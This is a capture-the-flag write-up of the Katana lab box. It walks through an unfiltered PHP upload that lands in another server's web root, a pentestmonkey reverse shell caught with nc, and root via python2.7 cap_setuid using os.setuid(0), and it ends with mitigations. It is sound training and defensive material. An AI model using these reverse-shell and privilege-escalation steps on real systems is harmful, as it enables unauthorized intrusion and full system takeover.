

<!-- writeup-meta
title: Katana
platform: Proving Grounds Play
os: Linux
difficulty: Easy
ip: 192.168.182.83
date: 2026-10-19
tags:
  - writeup
  - linux
  - file-upload
  - linux-capabilities
  - privesc
-->
# Katana

> [!NOTE]
> **TL;DR** — Of seven exposed services, port 8088 runs an "OpenLiteSpeed File Upload Test Page" that accepts a PHP file and *moves it to a different server's web root* (`/opt/manager/html/`), which is served on port 8715 — so you upload on one port and execute on another for a `www-data` shell. For root, `python2.7` carries the `cap_setuid` file capability, so `os.setuid(0)` drops straight to a root shell.
>
> **Path:** port 8088 upload test page → PHP shell moved to the :8715 web root → execute → `www-data` → `python2.7` `cap_setuid` → root

## 1. Recon

### 1.1 Nmap

Seven services — FTP, SSH, SMB, and four web servers:

```bash
$ nmap -Av -sS -p- 192.168.182.83
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2
80/tcp   open  http        Apache httpd 2.4.38 (title: Katana X)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian
7080/tcp open  ssl/http    LiteSpeed httpd (title: Katana X)
8088/tcp open  http        LiteSpeed httpd (title: Katana X)
8715/tcp open  http        nginx 1.14.2    (401 Basic realm=Restricted Content)
```

### 1.2 Service triage

Walking every service before committing to a foothold:

- **21 (FTP)** — no anonymous login.
- **80 (Apache)** — a static katana page; feroxbuster finds an `/ebook/` app, **"CSE Bookstore"** (`contact.php`, `admin_verify.php`, `cart.php`, `publisher_list.php`).
- **139/445 (SMB)** — RID cycling yields two users: `katana`, `debian`.
- **7080 (LiteSpeed)** — same katana image; `dashboard.php` just returns `{"login_timeout":1}`. Dead end.
- **8715 (nginx)** — HTTP Basic-auth prompt on the root.
- **8088 (LiteSpeed)** — feroxbuster finds `upload.php` / `upload.html`, an **"OpenLiteSpeed File Upload Test Page"**. This is the way in.

```bash
$ feroxbuster -u http://192.168.182.83:8088 -x php,html,txt
200      GET      http://192.168.182.83:8088/upload.php
200      GET      http://192.168.182.83:8088/upload.html
```

> [!WARNING]
> **Rabbit hole:** the CSE Bookstore on port 80 has known SQL injection (`admin_verify.php`/`publisher_list.php`) and looks like the intended target. The file-upload page on 8088 is the faster path, so I never needed it — don't tunnel-vision on the most obvious app.

## 2. Foothold

### 2.1 Cross-server file upload

The 8088 test page accepts a file. I uploaded a pentestmonkey PHP reverse shell, and the response showed where it went:



```
Moved to other web server: /tmp/phpfdrjdP ====> /opt/manager/html/katana_pentestMonkey.php
```

> [!IMPORTANT]
> **Vulnerability:** the upload handler accepts an executable `.php` with no filtering *and* saves it to `/opt/manager/html/` — not 8088's own web root, but a directory served by the **nginx instance on port 8715**. So the upload (8088) and the execution (8715) happen on different ports. The 8715 root is behind Basic auth, but the uploaded file itself is directly reachable.

### 2.2 Shell

Listener up, then request the shell on 8715 to trigger it:

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
$ curl -s http://192.168.182.83:8715/katana_pentestMonkey.php
```

```bash
connect to [<LHOST>] from (UNKNOWN) [192.168.182.83] 50620
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Stabilise the TTY:

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl-Z
$ stty raw -echo; fg
$ export TERM=xterm-256color
```

Both `/home/debian` and `/home/katana` are empty, but the user flag sits in the web root:

```bash
www-data@lab-pg-10-debian10-katana-247-124:/$ cat /var/www/local.txt
[REDACTED]
```

- **Initial access as:** `www-data`
- **local.txt:** `[REDACTED]`

## 3. Privilege Escalation

### 3.1 Enumeration — file capabilities

`sudo -l` wanted a password, and there were no useful SUID binaries. The win was in file capabilities:

```bash
www-data@lab-pg-10-debian10-katana-247-124:/$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
```

`ping` with `cap_net_raw` is normal, but **`python2.7` with `cap_setuid`** is a free root.

### 3.2 Exploitation — python2.7 cap_setuid

> [!TIP]
> **Why it works:** `cap_setuid` lets the binary call `setuid()` to any UID — including 0 — without being SUID-root. So Python can set its own UID to root, then spawn a shell. No SUID bit, no sudo needed.

```bash
www-data@lab-pg-10-debian10-katana-247-124:/$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@lab-pg-10-debian10-katana-247-124:/# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

`uid=0` is root; the `gid` stays `www-data` because `setuid(0)` only changes the user, not the group — irrelevant for reading root's files.

### 3.3 Root

```bash
root@lab-pg-10-debian10-katana-247-124:~# cat /root/proof.txt
[REDACTED]
```

- **Escalated to:** `root`
- **proof.txt:** `[REDACTED]`

## 4. Lessons Learned

- **Enumerate every service before committing.** With eight open ports, the foothold was on a high, easy-to-skip one (8088) and the shell landed on *yet another* (8715). The flashiest target — CSE Bookstore on 80 — was the decoy.

- **An upload can land somewhere you don't expect.** The 8088 test page wrote my shell to `/opt/manager/html/` — a different server's root. Always read the upload response for the real destination path, and check every web root for your file rather than assuming it stays on the port you uploaded to.

- **`getcap` is a first-class privesc check.** When `sudo -l` and SUID turn up nothing, run `getcap -r / 2>/dev/null`. `cap_setuid` on any interpreter (python, perl, ruby) is an instant root via `setuid(0)`.

- **New technique for my notes:** `cap_setuid` on python → `os.setuid(0)`; and uploads that move to another server's web root (upload on one port, execute on another).

## 5. Mitigation

- **Remove the upload test page.** OpenLiteSpeed's sample `upload.php` has no file-type filtering and writes into a web-served directory — it should never be on a reachable host. At minimum, store uploads outside any web root and block execution.

- **Strip dangerous capabilities.** `python2.7` must not carry `cap_setuid`: `setcap -r /usr/bin/python2.7`. Audit regularly with `getcap -r /`.

- **Apply the Basic-auth consistently.** The 8715 root is protected, but the uploaded file under it was served anyway — restrict the whole directory, not just its index.

## References

- [GTFOBins — python (capabilities)](https://gtfobins.github.io/gtfobins/python/#capabilities)
- [HackTricks — Linux capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
- [pentestmonkey — php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
